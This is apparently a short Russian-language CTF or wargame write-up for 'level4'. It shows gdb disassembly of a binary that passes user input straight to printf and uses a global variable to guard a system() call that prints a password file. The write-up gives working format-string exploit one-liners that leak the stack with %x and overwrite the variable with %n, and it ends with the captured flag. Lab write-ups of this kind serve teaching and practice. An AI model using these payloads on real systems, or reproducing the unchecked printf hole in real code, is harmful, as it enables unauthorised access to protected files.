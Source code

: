
# Вызов функции 'fgets', защищенной от переполнения буфера
```
=> 0x804847a <n+35>:	call   0x8048350 <fgets@plt>
```
# Можно увидеть вызов 'printf' с тем что мы ввели
```
=> 0x8048450 <p+12>:	call   0x8048340 <printf@plt>
```
# сmp создается с неинициализированной переменной
```
0x804848d <n+54>:	mov    eax,ds:0x8049810
=> 0x8048492 <n+59>:	cmp    eax,0x1025544
```
# если проверка прошла успешно, то файл '.pass' печатается с помощью 'system ("/ bin / cat /home/user/level5/.pass")'

# Мы будем использовать атаку форматной строки
# Сначала нам нужно распечатать память, пока мы не дойдем до адреса переменной, которую хотим изменить
```
$> python -c "print '\x10\x98\x04\x08' + '%x '*12" | ./level4
b7ff26b0 bffff804 b7fd0ff4 0 0 bffff7c8 804848d bffff5c0 200 b7fd1ac0 b7ff37d0 8049810
```
# Затем мы используем модификатор %n, чтобы изменить содержимое этой переменной
```
$> python -c "print '\x10\x98\x04\x08' + '%16930112x%12\$n'" | ./level4
[...]
```
>0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a

# ╮(￣_￣)╭